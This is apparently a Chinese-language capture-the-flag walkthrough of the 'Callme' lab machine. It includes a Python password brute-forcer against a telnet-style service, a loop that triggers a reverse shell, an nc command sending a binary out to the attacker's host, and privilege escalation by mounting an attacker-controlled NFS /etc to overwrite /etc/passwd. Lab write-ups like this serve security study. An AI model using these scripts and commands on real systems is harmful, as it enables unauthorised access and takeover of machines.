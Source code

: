 # Callme

## 端口扫描

通过nmap得知存在三个端口与服务

![image-20221219205105314](./index/image-20221219205105314.png)



## 攻击2323端口

首先可以看出这个服务类似IMAP，当然肯定不是，那么我们考虑用telnet进行交互

![image-20221219205751808](./index/image-20221219205751808.png)

存在一个登录的交互

![image-20221219205919907](./index/image-20221219205919907.png)

经过测试这里可以得知用户名为admin

![image-20221219210017970](./index/image-20221219210017970.png)

既然如此我们可以尝试爆破密码

```python
import socket
import time
import sys

with open('./rockyou.txt') as passwords:
    for (passwd,i) in zip(passwords,range(1,1575)):
        print("\r", end="")
        username = b'admin'
        ip = '172.20.10.4'
        port = 2323
        s = socket.socket()
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send(username + b'\r\n')
        s.recv(1024)
        s.send(passwd.strip().encode() + b'\r\n')
        re = s.recv(1024)
        s.recv(1024)
        sys.stdout.flush()
        time.sleep(0.01)
        if "Wrong password for user admin" not in str(re):
            print("\n[*] Get it! PASSWORD is:")
            print(passwd)
            break


```

成功得到密码booboo

![image-20221219210446166](./index/image-20221219210446166.png)

猜测这个数字和端口有关

![image-20221219210709444](./index/image-20221219210709444.png)

根据此我监听了一个2223端口，一直爆破就行等待上线

```python
import socket
import time

username = b'admin'
password = b"booboo"
ip = '172.20.10.4'
port = 2323
while True:
    s = socket.socket()
    s.connect((ip, port))
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(password + b'\r\n')
    re = s.recv(1024)
    print(s.recv(1024))
    s.close()


```

拿到shell，不过一个linux机器为什么返回我一个windows的shell，猜测是用了wine运行的程序

![image-20221219212215613](./index/image-20221219212215613.png)

有个 local.txt 查看

```bash
Z:\home\fox>type local.txt
ea2188e08f77470c2c9918ba06f566f7
```

同时发现一个startup的程序

![image-20221219212547646](./index/image-20221219212547646.png)

根据wine的运行配置我们很容易找到目录

```
/home/fox/.wine/drive_c/windows/system32/recallserver.exe
```

在靶机端用python起个服务下载，但是wine给的shell运行不了python不知道为什么

还好有个nc

```
windows:nc –n ip port < recallserver.exe
mac: nc -l port > 1.exe
```



拖进ida里面分析发现一个泄漏的密码`CODE:0046B5AC	00000012	C	tutankamenFERILLI`

![image-20221219231525937](./index/image-20221219231525937.png)

## 登录ssh

结合之前home下的用户信息猜测用户名就是fox的，ssh成功登录！

![image-20221219231906484](./index/image-20221219231906484.png)





## 提权

查看特权指令

![image-20221219232232474](./index/image-20221219232232474.png)

看看这个命令是干什么的

![image-20221219232654743](./index/image-20221219232654743.png)

可见我们可以将 Kali 本地的 /etc 挂载到靶机的 /etc 从而覆盖 /etc/passwd

在 Kali 生成密码

```bash
$ openssl passwd -1 -salt y4tacker y4tacker
```

写入`/etc/passswd`

![image-20221220001655695](./index/image-20221220001655695.png)

在 Kali 启动nfs

```bash
apt-get install nfs-kernel-server # 下载server
echo '/etc *(rw,no_root_squash,insecure)' > /etc/exports # 设置/etc允许被挂载
systemctl restart nfs-utils.service
/etc/init.d/nfs-kernel-server restart
```

挂载

```bash
sudo mount.nfs 172.20.10.6:/etc /etc
```

df查看结果

![image-20221220001144261](./index/image-20221220001144261.png)

切换用户成功提权

![image-20221220001722405](./index/image-20221220001722405.png)

进入root目录成功获得指定文件

![image-20221220001854802](./index/image-20221220001854802.png)
